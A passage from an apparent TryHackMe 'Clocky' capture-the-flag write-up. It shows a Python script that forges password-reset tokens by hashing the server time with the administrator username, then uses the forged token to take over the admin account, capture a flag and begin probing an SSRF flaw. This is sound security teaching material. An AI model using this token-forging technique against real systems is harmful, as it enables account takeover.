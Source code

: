 ```python
            ms_str = str(ms).zfill(2)  
            token_data = current_time_str + "." + ms_str + " . " + "administrator".upper()
            hashed_token = hashlib.sha1(token_data.encode("utf-8")).hexdigest()
            response = requests.get(base_url + 'password_reset', params={'token': hashed_token})
            if '<h2>Invalid token</h2>' not in response.text:
                print(f'Generated token: {hashed_token}') 
                valid_tokens.append(hashed_token)

        print("Generated tokens:", valid_tokens) 
    else:
        print("Error: Could not parse server time from response.")
else:
    print("Error: Failed to fetch server response.")

```

Go to `/forgot_password` and input administrator.

![administrator account reset](/images/THM-Clocky/admin-reset.png)

After running the script we get a token value that we need to add to `/password_reset`.

![python script to generate valid token values](/images/THM-Clocky/clocky-py.png)

```
10.10.62.39:8080/password_reset?token=2233b063a0ebf5505e2cf32a7fa79937d9b561ed
```

Our token value is correct and we are able to reset the password of the user `administrator`.

![password reset success](/images/THM-Clocky/pwd-reset-success.png)

Going back to `/dashboard` we can login with `administrator:Password_you_picked` and we get the flag 3.

```
THM{ee68e42f755f6ebbcd89439432d7b462}
```

![admin dashboard](/images/THM-Clocky/admin-dashboard.png)

---

## Flag 4

On the Administrator Dashboard we can submit a `Location` and download a file. After capturing the request with Burp Suite we can see that it uses the `location` parameter.

It turns out to be vulnerable to SSRF.

> "A **Server-side Request Forgery (SSRF)** vulnerability occurs when an attacker manipulates a **server-side application** into making **HTTP requests** to a domain of their choice. This vulnerability exposes the server to arbitrary external requests directed by the attacker." Source - [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
